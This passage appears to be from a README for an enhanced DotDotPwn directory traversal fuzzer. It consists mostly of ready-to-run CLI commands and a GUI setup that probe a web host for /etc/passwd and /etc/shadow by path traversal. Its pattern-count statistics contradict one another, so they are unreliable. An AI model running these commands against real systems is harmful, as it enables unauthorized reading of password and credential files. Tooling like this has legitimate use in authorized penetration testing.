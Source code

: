 ### 🎯 Modern Web Application Scan with Absolute Path Detection

**Scenario**: Testing a web application with comprehensive absolute path detection (ENHANCED FEATURE).

#### CLI Command
```bash
# Enhanced scan with absolute path patterns (144+ patterns per target)
python dotdotpwn.py --module http --host webapp.company.com --file /etc/passwd --pattern "root:" --depth 8

# Generate all patterns (path validation + absolute + relative)
python dotdotpwn.py main --module stdout --os-type unix --file /etc/passwd --depth 5

# Multiple target file aliases supported
python dotdotpwn.py --module http --host webapp.company.com -f /etc/passwd --pattern "root:"
python dotdotpwn.py --module http --host webapp.company.com --target-file /etc/shadow --pattern "root:"
python dotdotpwn.py --module http --host webapp.company.com --specific-file /etc/hosts --depth 6

# Enhanced scan with OS detection
python dotdotpwn.py --module http --host webapp.company.com --ssl --detect-os --service-detection --break-on-first --pattern "root:"
```

### 📊 Pattern Generation Comparison

```bash
# Traditional approach (limited patterns)
# Original DotDotPwn: ~1,778 patterns total
python dotdotpwn.py main --module stdout --os-type unix --file "/etc/passwd" --depth 3 | wc -l
# Output: 25,000+ patterns (1,305% increase)

# Pattern breakdown:
# - Relative traversal: ~1,778 patterns (traditional)
# - Absolute path: ~144 patterns (4,700% increase over original)
# - Path validation bypass: ~25,000 patterns (NEW - not in original)

# NEW: Enhanced approach (with absolute paths)  
python dotdotpwn.py generate --file /etc/passwd --depth 6 --absolute
# Output: 1,922 patterns (7.5% absolute coverage, 144 absolute patterns)
```

#### GUI Configuration
```
Module: http
Target Host: webapp.company.com
Port: 80 (or 443 for SSL)
Target File: /etc/passwd
Pattern: root:
Depth: 8
SSL: Enabled (if HTTPS)
OS Detection: Yes
Service Detection: Yes
Break on First: Yes
```
